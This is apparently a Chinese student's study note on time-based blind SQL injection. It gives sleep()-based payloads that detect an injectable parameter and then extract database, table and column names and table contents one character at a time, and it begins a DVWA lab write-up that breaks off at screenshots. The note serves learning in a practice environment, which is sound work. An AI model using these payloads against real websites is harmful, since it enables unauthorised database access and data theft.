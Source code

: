 1. 判断是否有盲注点

```sql
1' and if(1=1,sleep(5),1) # 延迟返回为TRUE
1' and if(1=2,sleep(5),1) # 不延迟返回为FALSE
```

基本与布尔盲注类似。

2. 猜解库名、表名、列名、内容

```sql
1' and if((substr(database(),1,1)='a'),sleep(5),1) # 猜解库名
1' and if((substr((select group_concat(table_name) from information_schema.tables where table_schema='DatabaseName'),1,1)='a'),sleep(5),1) # 猜解表名
1' and if((substr((select group_concat(column_name) from information_schema.columns where table_name='TableName'),1,1)='a'),sleep(5),1) # 猜解列名
1' and if((substr((select group_concat(SomeThing) from DatabaseName.TableName),1,1)='a'),sleep(5),1) # 猜解表名
```

以上即为基本的猜解过程。

# DVWA 之 SQL Injection

上课没有认真听，DVWA 安全级别一直开在 high，试了好久都做不出。下面就记录一下解题过程。

## 判断注入类型

![](/pics/WEB集训/二/3.png)

![](/pics/WEB集训/二/4.png)

